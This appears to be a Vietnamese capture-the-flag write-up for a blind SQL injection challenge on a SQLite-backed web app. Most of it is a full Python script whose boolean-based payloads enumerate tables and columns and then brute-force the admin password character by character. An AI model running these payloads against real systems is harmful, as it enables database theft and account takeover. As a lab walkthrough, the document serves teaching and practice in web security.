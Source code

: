 Sử dụng ký tự `'` để xem có bị dính SQLi hay không, thì thấy raise ra lỗi

![image](https://github.com/user-attachments/assets/91d74e82-ff60-4e20-997d-744db7d38d5e)

Thấy web sử dụng sqlite làm database với câu lệnh truy vấn

```SELECT * FROM users WHERE uid = 'username'```

Do description cho biết password nằm trong cột `upw`, nên có thể viết script bruteforce password của admin luôn.

Ở đây mình viết thêm cả script để dump các thuộc tính của các bảng trong db luôn phòng trường hợp cần dùng đến.

```python
import requests
url = 'http://103.97.125.56:31201/?uid='
payload_count_table = "' or (SELECT count(tbl_name) FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%' ) ="
omega = 'abcdefghijklmnopqrstuvwxyz0123456789_'
def send(url):
    response = requests.get(url)
    # print(url)
    if response.status_code == 200:
        if 'exists' in response.text:
            return True
    return False
# Lấy số lương table
i = 0
stop = True
while (stop):
    i+=1
    if send(url+payload_count_table+str(i)+'--+'):
        stop = False
count = i
print("So luong bang:",str(i))


# Lấy tên bảng
payload_length_table = "' or (SELECT length(tbl_name) FROM sqlite_master WHERE type='table' and tbl_name not like 'sqlite_%' limit 1 offset "
list_table = []
for i in range(count):
    # Độ dài tên từng bảng
    j = 0
    stop = True
    while (stop):
        j+=1
        if send(url+payload_length_table+str(i)+')= '+str(j)+'--+'):
            stop = False
    length = j
    # brute force tên bảng
    name=''
    for j in range(1,length+1):
        for c in omega:
            payload_name_table = f"' or (SELECT hex(substr(tbl_name,{j},1)) FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%' limit 1 offset {i}) = hex('{c}') --+"
            if send(url+payload_name_table):
                name +=c
                break
    list_table.append(name)

print("Các bảng: ",list_table)



# Lấy tên cột của các bảng
for table in list_table:
    list_col = []
    i = 0
    stop = True
    while (stop):
        i+=1
        payload = poayload_count_col= f"' or (select count(name) from pragma_table_info('{table}') as tblInfo) = {i} --+"
        if send(url+payload):
            stop = False
    count = i
    print("Số lượng cột: ",count)
    for i in range(count):
        # Độ dài tên từng cột
        j = 0
        stop = True
        while (stop):
            j+=1
            payload_length_col = f"' or (SELECT length(name) from pragma_table_info('{table}') as tblInfo limit 1 offset {i}) = {j} --+"
            if send(url+payload_length_col):
                stop = False
        length = j
        # brute force tên côt
        print(f"Độ dài cột {i}:",length)
        name=''
        for j in range(1,length+1):
            for c in omega:
                payload_name_col = f"' or (SELECT hex(substr(name,{j},1)) FROM pragma_table_info('{table}') limit 1 offset {i}) = hex('{c}') --+"
                if send(url+payload_name_col):
                    name +=c
                    break
        list_col.append(name)
    print(f"các cột của bảng {table}: ",list_col)

# Độ dài password
j = 0
stop = True
while (stop):
    j+=1
    payload_length_col = f"' or (SELECT length(upw) from users where uid = 'admin') = {j} --+"
    if send(url+payload_length_col):
        stop = False
length = j
# brute force password
print(f"Độ dài password:",length)
password=''
for j in range(1,length+1):
    for c in omega:
        payload_name_col = f"' or (SELECT hex(substr(upw,{j},1)) from users where uid = 'admin') = hex('{c}') --+"
        if send(url+payload_name_col):
            password +=c
            break
print("password of admin: ",password)
```
Sau khi có password là `y0u_4r3_4dm1n` thì đăng nhập trong `/login` để lấy flag thôi
